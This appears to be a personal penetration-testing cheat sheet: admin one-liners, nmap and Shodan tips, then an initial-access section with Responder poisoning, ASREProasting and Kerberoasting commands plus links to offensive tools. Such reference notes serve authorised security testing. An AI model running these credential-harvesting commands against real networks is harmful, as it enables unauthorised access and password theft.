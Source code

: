 # **ITSEC Notes**

## Tools
https://github.com/Cerbersec/Ares

https://github.com/cddmp/enum4linux-ng

https://github.com/0xsp-SRD/mortar

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/aas-n/spraykatz


## Powershell

### Ping a List of Computers

```
$ServerName = Get-Content "c:\Computers.txt"  
  
foreach ($Server in $ServerName) {  
  
        if (test-Connection -ComputerName $Server -Count 2 -Quiet ) {   
          
            "$Server is Pinging "  
          
                    } else  
                      
                    {"$Server not pinging"  
              
                    }      
          
}
```

### Get IPv4 Address from a List
```
$Servername = Get-Content "C:\Computers.txt" 

ForEach ($Server in $Servername) {

 (Get-ADComputer -Properties IPv4Address).IPv4Address

 }
 ```

## Unix Commands

### Print/Split Certain Columns, Space delimited -F ' ' / Column 1 $1  

```
awk -F ' ' '{print $1}' Macs.txt > MacsNamesOnly.txt
```

### Split a file n (100) number of lines into part1/2/etc
```
split -l 100 full part --numeric-suffixes=1
```

### Reformat usermames first.last@domain.com to last + first letter
```
while read LINE in; do
        EMAIL=`echo $LINE | awk -F\@ '{print $1}'`
        NAME=`echo $EMAIL | awk -F\. '{print $NF}'`
        CHAR1=`echo $LINE | cut -c1`
        echo ${NAME}${CHAR1}
done < emails.lst
```

### Get Ips from a file
```
egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' list | sort | uniq > ips
```

## Nmap

### Useful Switches 
```
-p- all ports
--open only show open ports
-iL use a target list

Convert xml output to html files
&& xsltproc part1.xml -o part1.html 

```


## Metasploit

### Install Metasploit
````
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
````

## Shodan
### Useful Searches
```
org:"companyname"
net:"1.1.1.0/24"
```

## Notes
Identify Domain Controller
````
nslookup  
 type set type=all 
 _Idap._tcp.dc_msdcs."Domain_Name" 
 ````

# Initial Access
## Poisoning and Spoofing (LLMNR NBT-NS)

Pretender
https://github.com/RedTeamPentesting/pretender

Responder
https://github.com/lgandx/Responder

Examples

``` responder -I eth0 ```

``` responder -I eth0 -A ``` Analyze mode

``` responder -I eth0 -wF ``` WPAD

## ASREProast
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

users list dynamically queried with an LDAP anonymous bind

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
``` 

users list dynamically queried with a LDAP authenticated bind (password)

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
``` 

CrackMapExec

```
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
``` 

## Kerberoasting
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

```
python GetUserSPNs.py -debug -request -outputfile kerberoasting.txt -dc-ip 1.1.1.1 -target-domain domain.local domain/user:password
```
